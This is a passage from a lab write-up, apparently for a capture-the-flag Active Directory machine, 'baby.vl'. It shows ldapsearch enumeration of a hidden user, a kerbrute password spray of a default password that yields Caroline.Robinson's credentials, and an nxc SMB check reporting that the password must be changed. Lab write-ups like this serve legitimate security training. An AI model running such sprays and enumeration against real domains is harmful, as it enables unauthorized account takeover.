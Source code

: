 I noticed a new user that was not included in the previous user dump. Enumerating this user's details confirmed that most attributes were restricted, which explains why nxc did not list the user.
```
❯ ldapsearch -H ldap://10.129.234.71 -x -b "CN=Caroline Robinson,OU=it,DC=baby,DC=vl"
# extended LDIF
#
# LDAPv3
# base <CN=Caroline Robinson,OU=it,DC=baby,DC=vl> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# Caroline Robinson, it, baby.vl
dn: CN=Caroline Robinson,OU=it,DC=baby,DC=vl

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

### Password Spray Attack

With a complete list of users, I proceeded to spray the default password across them to check for any users still using the default password.
There are various tools for password spraying. I like using `kerbrute` as it leverages Kerberos pre-authentication, which does not increment failed password attempt counters, reducing the risk of unintended account lockouts.
```
❯ tools/kerbrute_linux_amd64 passwordspray -d baby.vl --dc 10.129.234.71 users.txt 'BabyStart123!'

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 10/07/25 - Ronnie Flathers @ropnop

2025/09/18 09:06:47 >  Using KDC(s):
2025/09/18 09:06:47 >   10.129.234.71:88

2025/09/18 09:06:48 >  [+] VALID LOGIN:  Caroline.Robinson@baby.vl:BabyStart123!  <---
2025/09/18 09:06:48 >  Done! Tested 9 logins (1 successes) in 0.432 seconds
```

A set of valid credentials was discovered.\
`Caroline.Robinson:BabyStart123!`

I ran `nxc` to verify the credentials.
```
❯ nxc smb 10.129.234.71 -u Caroline.Robinson -p 'BabyStart123!'
SMB         10.129.234.71   445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.71   445    BABYDC           [-] baby.vl\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE
```
